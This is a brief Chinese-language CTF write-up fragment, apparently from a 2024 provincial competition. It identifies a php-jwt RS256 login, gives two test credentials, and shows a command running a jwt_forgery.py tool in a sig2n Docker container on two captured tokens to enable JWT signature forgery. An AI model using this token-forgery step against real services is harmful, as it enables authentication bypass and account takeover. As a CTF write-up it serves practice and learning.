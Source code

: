 扫目录能看到 composer.json 得知是 php-jwt

两个用户 admin/123456 test/123456 都可以登陆，分别拿到两段 jwt token

Jwt  加密形式是 RS256 

参考 https://ctftime.org/writeup/30541   

```Bash
docker run -it sig2n /bin/bash
root@201317bd1ea9:/app python3 jwt_forgery.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJpcCI6IjE3Mi4yMC4yNDAuMzIifQ.DDtMChPMQtBA_2_wJxLPO_6g5dTaM7stY2Knngol6qAeaWh4Y8EjY6ndBLuEMhXYyecpiLFXZxEPqkV_GW3rGReg7LTCfIb4x6M6RRhotbersK1AGKKGUyVHmr0es0bHpw eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoidGVzdCIsImlwIjoiMTcyLjIwLjI0MC4zMiJ9.A9CrtyzLavHQif9VRIHJN1kSjLefzcKPArv3Eo96EbSlD5gzRU78QGiFkdtW_YxQgYc7z82PqH1BQGWMf5CLBfYSQNB6V9HV7FyZJUpzZt2b-irXitYFhW2qQJr0i_yrJA
```

![img](../images/2024-ProvinceCTF/image2.webp)
